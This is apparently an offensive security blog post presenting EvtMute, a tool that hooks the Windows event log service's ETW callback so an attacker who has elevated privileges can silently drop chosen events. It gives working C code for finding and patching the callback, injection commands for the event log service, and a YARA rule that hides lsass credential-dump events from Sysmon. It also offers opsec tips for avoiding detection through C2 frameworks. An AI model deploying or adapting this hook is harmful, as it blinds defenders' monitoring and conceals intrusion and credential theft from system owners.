The Event Log coupled with Windows Event Forwarding and Sysmon can be extremely powerful in the hands of defenders, allowing them to detect attackers every step of the way. Obviously this is an issue for the attackers. Before privilege escalation it is limited what we can do to evade event logging, but once privileges have been elevated it is an equal playing field.

In the past I have released a [method](https://blog.dylan.codes/evading-sysmon-and-windows-event-logging/) to evade this logging by loading a malicious kernel driver and hooking the `NtTraceEvent` syscall. This method is effective but has two issues. The main issue is the risk associated with loading a kernel driver and patching syscalls as there is the potential to cause a BSOD on the machine which for obvious reasons a very bad thing. The other issue is that it will simply stop all events from being reported, so while the hook is active that machine will no longer be sending events to the SOC or SIEM. Its a real possibility that defenders would notice this sudden lack of events. So is there a way to only filter out the events caused by an attacker while also remaining completely inside usermode? Yes.

A couple of years ago [@hlldz](https://twitter.com/hlldz) released [Invoke-Phant0m](https://github.com/hlldz/Invoke-Phant0m). It would find the event log process and then kill all the threads running from `wevtsvc.dll`. This is because `wevtsvc.dll` **is** the event log service so by killing the threads associated with it will disable the logging. It works well but still has the same issue that ghost in the logs does, all events stopped from being reported. To solve this issue I wanted to make a tool that will be similar to `Invoke-Phant0m` but will allow an attacker to apply a filter to the events being reported so they can only block events related to there malicious actions.

#### **Reversing the event log service.**

After opening `wevtsvc.dll` in cutter and looking around I noticed that it will open a tracing session via `OpenTraceW`.



`OpenTraceW` takes the `EVENT_TRACE_LOGFILEW` structure as an argument. This structure has the value `EventRecordCallback` which points to the callback function that will be given the event.

With a bit of digging about in windbg I found the callback function is `wevtsvc!EtwEventCallback`


Looking at the disassembly of the callback we can see that it does not look like a function, but rather is just a bit of assembly that will call `EventCallback`.



Setting a breakpoint on `wevtsvc!EtwEventCallback` we are able to dig a bit more into how this callback works. It will receive the event in the `EVENT_RECORD` structure which looks like;

```
typedef struct _EVENT_RECORD {
  EVENT_HEADER                     EventHeader;
  ETW_BUFFER_CONTEXT               BufferContext;
  USHORT                           ExtendedDataCount;
  USHORT                           UserDataLength;
  PEVENT_HEADER_EXTENDED_DATA_ITEM ExtendedData;
  PVOID                            UserData;
  PVOID                            UserContext;
} EVENT_RECORD, *PEVENT_RECORD;
```

The `EVENT_HEADER` structure will contain more info about the event including the provider which is reporting the event. With a little windbg magic we are able to grab this providers GUID.



Now that we have the providers GUID we can look it up using the `logman.exe` utility, and see that the provider was `Microsoft-Windows-Sysmon`.



Now we know we are looking in the right place we can patch this function with a `ret` instruction. This will stop all the events from being reported.



Below you can see that I cleared the event log at 7:01 then added a new user at 7:04 but this event was not reported because of our `ret` in the callback is causing all events system wide to be dropped.

<figure>



<figcaption>

  


</figcaption>

</figure>

#### **Applying the hook**

Now that we have a PoC working in windbg its time to start writing the code. I'm going to skip the injection side as there is loads of good explanations on that and go straight into how our DLL will work.

The first thing we need to do is find the offset of `wevtsvc!EtwEventCallback` so we know where to place the hook. The first step in doing that is locating the base address of `wevtsvc.dll` the code below will do that and store it in the `dwBase` variable.

```
DWORD_PTR dwBase;
DWORD     i, dwSizeNeeded;
HMODULE   hModules[102400];
TCHAR     szModule[MAX_PATH];

if (EnumProcessModules(GetCurrentProcess(), hModules, sizeof(hModules), &dwSizeNeeded))
{
\	for (int i = 0; i < (dwSizeNeeded / sizeof(HMODULE)); i++)
\	{
\	\	ZeroMemory((PVOID)szModule, MAX_PATH);

\	\	if (GetModuleBaseNameA(GetCurrentProcess(), hModules[i], (LPSTR)szModule, sizeof(szModule) / sizeof(TCHAR)))
\	\	{
\	\	\	if (!strcmp("wevtsvc.dll", (const char*)szModule))
\	\	\	{
\	\	\	\	dwBase = (DWORD_PTR)hModules[i];
\	\	\	}
\	\	}
\	}
}
```

Since we do not know the exact location of `EtwEventCallback` we will need to search memory for it. We know that its in the address space of `wevtsvc.dll` which is why we had to find its base address.

We can use the disassembly from windbg to see the bytes at the start of the callback. We can then scan memory until we find these bytes. Once we have we will know where to place the hook.



This code will search `0xfffff` bytes past the base address of `wevtsvc.dll` for the pattern `4883ec384c8b0d`

```
#define PATTERN "\\x48\\x83\\xec\\x38\\x4c\\x8b\\x0d"

DWORD i;
LPVOID lpCallbackOffset;

for (i = 0; i < 0xfffff; i++)
{
    if (!memcmp((PVOID)(dwBase + i), (unsigned char*)PATTERN, strlen(PATTERN)))
    {
        lpCallbackOffset = (LPVOID)(dwBase + i);
    }
}
```

Once we have the offset we will make a copy of the bytes located there with a call to `memcpy`

```
memcpy(OriginalBytes, lpCallbackOffset, 50);
```

Then apply a hook to redirect all the calls to `EtwEventCallback` to `EtwCallbackHook`

```
VOID HookEtwCallback()
{
    DWORD oldProtect, oldOldProtect;

    unsigned char boing[] = { 0x49, 0xbb, 0xde, 0xad, 0xc0, 0xde, 0xde, 0xad, 0xc0, 0xde, 0x41, 0xff, 0xe3 };

    *(void **)(boing + 2) = &EtwCallbackHook;

    VirtualProtect(lpCallbackOffset, 13, PAGE_EXECUTE_READWRITE, &oldProtect);
    memcpy(lpCallbackOffset, boing, sizeof(boing));
    VirtualProtect(lpCallbackOffset, 13, oldProtect, &oldOldProtect);

    return;
}
```

I'm going to skip going into details about parsing `EventRecord->UserData` as it could be a whole blog post on its own, but if you are interested you can see my implementation [here](https://github.com/bats3c/EvtMute/blob/master/EvtMute/EvtMuteHook/dllmain.cpp#L132).

Now having hooked the callback is all good, but we still need to be able to report events we don't want to block. This means we are going to also have to restore and run the callback so the event is reported, then re-hook it so we can catch the next event.

Using a `typedef` makes doing this pretty straight forward.

```
typedef VOID(WINAPI * EtwEventCallback_) (EVENT_RECORD *EventRecord);

VOID DoOriginalEtwCallback( EVENT_RECORD *EventRecord )
{
    DWORD dwOldProtect;

    VirtualProtect(lpCallbackOffset, sizeof(OriginalBytes), PAGE_EXECUTE_READWRITE, &dwOldProtect);
    memcpy(lpCallbackOffset, OriginalBytes, sizeof(OriginalBytes));
    VirtualProtect(lpCallbackOffset, sizeof(OriginalBytes), dwOldProtect, &dwOldProtect);

    EtwEventCallback_ EtwEventCallback = (EtwEventCallback_)lpCallbackOffset;

    EtwEventCallback(EventRecord);

    HookEtwCallback();
}
```

After doing all of the we are now able to find the offset of the ETW callback, hook it to our own and parse the data. Then unpatch the callback and report the event.

Below you can see what the parsed event looks like in the windbg window.

<figure>



<figcaption>

  


</figcaption>

</figure>

#### **Pattern matching with YARA**

Now that we have the event in a clear format, its time to implement filters. I decided to use [YARA rules](http://virustotal.github.io/yara/) for two reasons, The first being that I love the irony of using a popular defensive tool offensively. The second reason is that it is actually perfect for this use case as it has a [very well documented](https://yara.readthedocs.io/en/stable/capi.html) C API and will work completely inside memory.

Its also worth pointing out that I have defined the following macros to keep consistency in the code style

<figure>



<figcaption>

  


</figcaption>

</figure>

The below example shows how you can create a yara rule object that can be used in `YRRulesScanMem`

```
#define RULE_ALLOW_ALL "rule Allow { condition: false }"

YRInitalize();

RtlCopyMemory(cRule, RULE_ALLOW_ALL, strlen(RULE_ALLOW_ALL));

if (YRCompilerCreate(&yrCompiler) != ERROR_SUCCESS)
{
  return -1;
}

if (YRCompilerAddString(yrCompiler, cRule, NULL) != ERROR_SUCCESS)
{
  return -1;
}

YRCompilerGetRules(yrCompiler, &yrRules);
```

Once the rule object has been created we can start scanning memory. The below example will scan the `StringBuffer` variable which contains the formatted event and will pass the result to the yara callback function `ToReportOrNotToReportThatIsTheQuestion` which in turn will either set the `dwReport` variable to `0` or `1` depending on if the rule matched or not. There is also a hard baked check for if the `PIPE_NAME` variable is present in the event. The reason for this `EvtMuteHook.dll` will use a named pipe to dynamically update the current rule, this will cause events to be generated so this check will ensure that these events are never reported.

```
INT ToReportOrNotToReportThatIsTheQuestion( YR_SCAN_CONTEXT* Context,
    INT Message,
    PVOID pMessageData,
    PVOID pUserData
)
{
    if (Message == CALLBACK_MSG_RULE_MATCHING)
    {
        (*(int*)pUserData) = 1;
    }

    if (Message == CALLBACK_MSG_RULE_NOT_MATCHING)
    {
        (*(int*)pUserData) = 0;
    }

    return CALLBACK_CONTINUE;
}

YRRulesScanMem(yrRules, (uint8_t*)StringBuffer, strlen(StringBuffer), 0, ToReportOrNotToReportThatIsTheQuestion, &dwReport, 0);

if (dwReport == 0)
{
    if (strstr(StringBuffer, PIPE_NAME) == NULL)
    {
        DoOriginalEtwCallback(EventRecord);
    }
}
```

#### **Where's the logs gone?**

You can grab the latest versions of EvtMute from [here](https://github.com/bats3c/EvtMute/releases/tag/v1.0). `EvtMuteHook.dll` contains the core functionality, once it is injected it will apply a temporary filter which will allow all events to be reported, this filter can be dynamically updated without having to re-inject.

I've written `SharpEvtMute.exe` which is a C# assembly that can easily run via `execute` in shad0w or `execute-assembly` in cobalt strike. I will be writing a native version in C for a more stealthy option.

**Disabling Logging**

A trivial use case would be to disable event logging system wide. To do this we can use the following yara rule.

```
rule disable { condition: true }
```

We will need to start by injecting the hook into the event service.

```
.\\SharpEvtMute.exe --Inject
```



Now that the hook is placed we can add the filter.

```
.\\SharpEvtMute.exe --Filter "rule disable { condition: true }"
```



Now all events will be dropped by the event service.

**Complex Filters**

Filters can be dynamically changed without having to re-inject a hook. This makes it quick and easy to update the active filter.

An example of a more complex filter is shown below. It is capable of blocking the events related to a lsass memory dump from being reported by sysmon.

```
rule block_lsass_dump {
    meta:
        author = "@_batsec_"
        description = "Prevent lsass dumping being reported by sysmon"
    strings:
        $provider = "Microsoft-Windows-Sysmon"
        $image = "lsass.exe" nocase
        $access = "GrantedAccess"
        $type = "0x1fffff"
    condition:
        all of them
}
```

With a complex rule like this it is much harder to condense it into a single line. This is why I added the ability to give base64 encoded rules.

The rule can easily be converted to base64 from a linux command line.

```
base64 -w 0 YaraFilters/lsassdump.yar | echo $(</dev/stdin)
```

Then using the `--Encoded` flag we can pass it as a filter

<figure>



<figcaption>

  


</figcaption>

</figure>

#### **Opsec Considerations**

When injecting the hook `SharpEvtMute.exe` will call `CreateRemoteThread` this call is made before the hook is placed so it will be reported by Sysmon. This is because the injection feature of `SharpEvtMute.exe` should only be used as a PoC. I recommend manually injecting `EvtMuteHook.dll` into the event logging service when stealth is important.

It's PID can be found by running `SharpEvtMute.exe --Pid`. The hook can be placed by manually injecting the shellcode (run `make` in EvtMuteBin) via your C2 framework of choice, e.g `shinject` in shad0w.

It is also worth mentioning that the hook will use a named pipe to update filters. The named pipe is called `EvtMuteHook_Rule_Pipe` (this named can be changed easily). There is a rule hard baked into the hook to ensure that any events including this name will be dropped automatically but it will still be an IOC having it listening, so I recommend changing it.

#### **Community Filters**

If you create some useful filters feel free to make a pull request to the `YaraFilters` directory. It would be cool to have a good collection of filters to hide common actions that everyone can benefit from.

Thanks for reading and if you have any questions feel free to hit me up on twitter [@\_batsec\_](https://twitter.com/_batsec_)
